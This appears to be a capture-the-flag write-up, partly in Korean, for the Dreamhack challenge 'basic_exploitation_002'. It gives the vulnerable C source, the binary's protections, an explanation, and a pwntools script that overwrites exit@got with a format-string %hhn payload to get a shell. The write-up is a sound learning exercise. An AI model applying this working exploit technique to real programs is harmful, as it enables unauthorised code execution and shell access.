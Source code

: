 ## basic_exploitation_002
---

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```

<br>

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

<br><br>

## Solution
---

가볍게 exit@got를 overwrite 해주면 된다.

왜냐하면 PIE가 적용되어 있지 않고, RELRO 또한 FULL이 아닌 Partial이기 때문에 가능하다.

코드 상에서 read로 받아오고 0x80만큼 받아오게 되는데 우리가 입력하는 값은 어차피 문자열이기 때문에 buf 안에 값은 정상적으로 다 들어간다.

처음엔 셸이 안되서 착각했었던 부분이었는데 그냥 실수였음.

그래서 포맷스트링을 넣어주면 첫 번째 포맷인자에서 포맷스트링을 받아오므로 exit의 got 주소의 하위 2바이트 값만 get_shell과 맞춰주면 된다.

둘의 주소가 비슷해서 가능.

<br>

```python
from pwn import *

p = remote('host3.dreamhack.games',9047)

# context.log_level = 'debug'

# get_shell = 0x0804 8609

e = ELF('./basic_exploitation_002')

exit_got = e.got['exit'] # 0x0804 8476 -> 84 76 -> 86 09

payload = p32(exit_got) + p32(exit_got+1) + b'%1c%1$hhn%125c%2$hhn'

p.send(payload)
p.interactive()
```
